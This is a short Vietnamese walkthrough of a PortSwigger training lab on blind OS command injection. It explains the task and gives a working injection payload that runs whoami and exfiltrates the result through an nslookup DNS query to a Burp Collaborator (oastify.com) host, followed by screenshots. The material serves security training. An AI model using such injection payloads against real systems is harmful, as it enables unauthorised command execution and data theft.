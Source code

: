 link: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration

### Đề bài

![image](https://hackmd.io/_uploads/Hkw8-3VOA.png)

### Phân tích

- Ứng dụng thực thi lệnh shell chứa thông tin chi tiết do người dùng cung cấp. Lệnh được thực thi không đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Không thể chuyển hướng đầu ra vào vị trí mà bạn có thể truy cập. Tuy nhiên, bạn có thể kích hoạt tương tác ngoài băng tần với miền bên ngoài.

Để giải bài lab, hãy thực hiện whoamilệnh và trích xuất đầu ra thông qua truy vấn DNS tới Burp Collaborator. Bạn sẽ cần nhập tên người dùng hiện tại để hoàn thành bài lab.

### Khai thác

- thực hiện nslookup truy vấn đến burpcolabrator của chúng ta với kết quả của lệnh được thực thi whoami

`` ;nslookup+`whoami`.cgwd6pd5h20aey1k4nwjcuc37udl1cp1.oastify.com; ``

![image](https://hackmd.io/_uploads/rJz0f2Ed0.png)

![image](https://hackmd.io/_uploads/B1ZTG3E_A.png)

![image](https://hackmd.io/_uploads/S14hf2VdA.png)

<img  src="https://3198551054-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FVvHHLY2mrxd5y4e2vVYL%2Fuploads%2FF8DJirSFlv1Un7WBmtvu%2Fcomplete.gif?alt=media&token=045fd197-4004-49f4-a8ed-ee28e197008f">
